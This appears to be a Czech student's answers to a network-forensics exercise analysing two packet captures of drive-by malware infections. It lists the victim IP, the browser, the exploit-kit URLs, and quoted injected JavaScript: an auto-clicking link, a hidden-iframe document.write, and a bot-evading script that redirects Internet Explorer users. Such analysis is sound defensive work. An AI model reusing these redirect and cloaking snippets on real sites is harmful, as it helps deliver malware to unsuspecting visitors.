 # Zadání první části – soubor uloha1.pcap

### 1. Jaká je IP adresa stanice, která byla infikována?

```
127.80.179.181
```

### 2. Jaký prohlížeč infikovaná stanice používala?

Internet Explorer 8.0

```
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
```

### 3. Jaká je URL, ze které byl exploit stažen?

```
http://static.this-is-not-a-botnet.com/3h251q2c35
```

### 4. Jaká je URL webové stránky, ze které se stanice dostala na URL s exploitem?

```
http://akronkappas.com//d2a42e1f7d9a1021bd7d93af414c95c4.php?q=70a9b40eb73da11445c3a3609c8241d9
```

### 5. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```
<a id='myLink' href='http://static.this-is-not-a-botnet.com/3h251q2c35'>click</a><script>document.getElementById('myLink').click();</script>
```

# Zadání druhé části – soubor uloha2.pcap

### 1. Která URL adresa (uveďte alespoň doménu) způsobila infekci stanice?

```
http://tyu.benme.com/%3fct=Vivaldi&biw=Vivaldi.95ec76.406i7c5k7&oq=h8fItKeRVawGyjRaFcw1nyYdeAwgQ8_qtiEKBzBKfgZ6D-hyMZAh1z6LRVvQ42w&tuif=2320&q=wH7QMvXcJwDNFYbGMvrER6NbNknQA0KPxpH2_drZdZqxKGni2Ob5UUSk6FqCEh3&yus=Vivaldi.114tq57
```

### 2. Jak se uživatel dostal na danou doménu?

`http://retrotip.visionurbana.com.ve/dle_js.js`

```
document.write('<div class="" style="position:absolute; width:383px; height:368px; left:17px; top:-858px;">  <div  style="" class=""><a>head</a><a class="head-menu-2"> </a><iframe src="http://tyu.benme.com/?q=zn_QMvXcJwDQDofGMvrESLtEMUbQA0KK2OH_76iyEoH9JHT1vrTUSkrttgWC&biw=Amaya.81lp85.406f4y5l9&oq=elTX_fUlL7ABPAuy2EyALQZnlY0IU1IQ8fj630PWwUWZ0pDRqx29UToBvdeW&yus=Amaya.110oz60.406a7e5q8&br_fl=4109&tuif=5364&ct=Amaya" width=290 height=257 ></ifr' +'ame> <a style=""></a></div><a class="" style="">temp</a></div>');
```

### 3. Samotný malware je uložen na jiné (externí) URL adrese. Jaká je to adresa?

```
http://p27dokhpz2n7nvgr.1jw2lx.top/EE7E-AD39-7D8C-080C-18BF?iframe&_=1485557725652
```

### 4. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

`http://retrotip.visionurbana.com.ve/dle_js.js`

```
document.write('<div class="" style="position:absolute; width:383px; height:368px; left:17px; top:-858px;">  <div  style="" class=""><a>head</a><a class="head-menu-2"> </a><iframe src="http://tyu.benme.com/?q=zn_QMvXcJwDQDofGMvrESLtEMUbQA0KK2OH_76iyEoH9JHT1vrTUSkrttgWC&biw=Amaya.81lp85.406f4y5l9&oq=elTX_fUlL7ABPAuy2EyALQZnlY0IU1IQ8fj630PWwUWZ0pDRqx29UToBvdeW&yus=Amaya.110oz60.406a7e5q8&br_fl=4109&tuif=5364&ct=Amaya" width=290 height=257 ></ifr' +'ame> <a style=""></a></div><a class="" style="">temp</a></div>');
```

alebo

```
var NormalURL = 'http://tyu.benme.com/?oq=CEh3h8_svK7pSP1LgiRbVcgU3n45bWw8S_6qviBCBmBWUhcSHrxLeNwt1z6I&q=wH7QMvXcJwDIFYbGMvrETKNbNknQA06PxpH2_drZdZqxKGni0ub5UUSk6Fy&tuif=5921&br_fl=5828&biw=Vivaldi.82ss74.406q9e2t1&yus=Vivaldi.80lf74.406f5d1w2&ct=Vivaldi';


function start() {
	BrowserInfo = getBrowser();

	if(BrowserInfo.is_bot == true) {
		document.write('');		
			} else {
      if(BrowserInfo.browser_real=='ie') {
		    window.frames[0].document.body.innerHTML = '<form target="_parent" method="post" action="'+NormalURL+'"></form>'; 
		    window.frames[0].document.forms[0].submit();
      }
	}
	
}
```
